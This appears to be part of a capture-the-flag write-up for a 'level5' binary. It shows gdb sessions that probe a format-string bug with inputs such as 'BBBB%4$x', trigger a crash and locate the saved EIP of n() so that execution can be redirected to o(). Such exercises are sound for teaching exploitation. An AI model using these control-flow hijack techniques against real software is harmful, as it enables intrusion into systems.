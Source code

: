 #### Finding saved EIP address

To find the saved EIP of the program, we can use the ability to make the program segfault in cordination with gdb

- Make the program SEGV:

```bash
(gdb) run <<< 'BBBB%4$x'
Starting program: /home/user/level5/level5 <<< 'BBBB%4$x'
BBBB42424242
[Inferior 1 (process 12790) exited with code 01]
(gdb) run <<< 'BBBB%4$s'
Starting program: /home/user/level5/level5 <<< 'BBBB%4$s'

Program received signal SIGSEGV, Segmentation fault.
0xb7e70003 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
```

- Once the program has received the segv signal, check the backtrace of the program

```bash
(gdb) bt
#0  0xb7e70003 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
#1  0xb7e7887f in printf () from /lib/i386-linux-gnu/libc.so.6
#2  0x080484f8 in n ()
#3  0x0804850f in main ()
```

- In our case, we want to modify the saved EIP of the n() function to avoid the exit() function call and instead jump into the o() function

- Use the `info frame` command with the index of the frame

```
(gdb) info  frame 1
Stack frame at 0xbffff480:
 eip = 0xb7e7887f in printf; saved eip 0x80484f8
 called by frame at 0xbffff6a0, caller of frame at 0xbffff460
 Arglist at 0xbffff460, args:
 Locals at 0xbffff460, Previous frame's sp is 0xbffff480
 Saved registers:
  ebx at 0xbffff478, eip at [0xbffff47c]

(gdb) info  frame 2
Stack frame at 0xbffff6a0:
 eip = 0x80484f8 in n; saved eip 0x804850f
 called by frame at 0xbffff6b0, caller of frame at 0xbffff480
 Arglist at 0xbffff698, args:
 Locals at 0xbffff698, Previous frame's sp is 0xbffff6a0
 Saved registers:
  ebp at 0xbffff698, [eip at 0xbffff69c]
```

- Try to overwrite the address of the saved EIP !
